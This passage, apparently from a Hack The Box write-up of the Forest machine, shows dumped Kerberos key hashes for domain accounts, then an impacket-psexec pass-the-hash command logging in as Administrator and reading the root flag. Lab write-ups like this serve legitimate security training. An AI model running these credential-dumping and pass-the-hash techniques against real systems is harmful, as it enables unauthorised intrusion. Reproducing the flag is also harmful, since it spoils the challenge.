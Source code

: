 ```bash
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
Dignitas:aes256-cts-hmac-sha1-96:27f7d0d9690c3353d2c5dd883a5d3b5f1e2d50a379f51d939974effb2fd8f356
Dignitas:aes128-cts-hmac-sha1-96:3403a6f63dc8b578ad76aa1f18f2b14d
Dignitas:des-cbc-md5:f4fe25f2510bc883
FOREST$:aes256-cts-hmac-sha1-96:a4fa6d7f67a0ffad420489ed900f775d5d4558508338bf66fc8188d243d27908
FOREST$:aes128-cts-hmac-sha1-96:ad327a26d6a1fb0b8d20a07abf55c84e
FOREST$:des-cbc-md5:670e46e5f1579d51
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124666522/8af7f0f0-c5a8-4b7f-9ae7-c13f84f5db07.png align="center")

We now have the NTLM hash of the Administrator user let’s use the Pass-The-Hash attack to login into the system as Administrator.

```powershell
impacket-psexec 'administrator'@10.129.136.21 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124873153/d3cbe5e1-b95f-409c-89f6-1fc79fe743fc.png align="center")

Now let’s get our root flag.

```bash
type root.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124929420/219b464b-e96b-4e47-bc05-b5dfc7cd49ca.png align="center")

Flag: ***94a64d01f2fe488233eb7383bd1cb563***

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739125027674/b878e019-e5ad-4186-a42a-8fee7a867319.png align="center")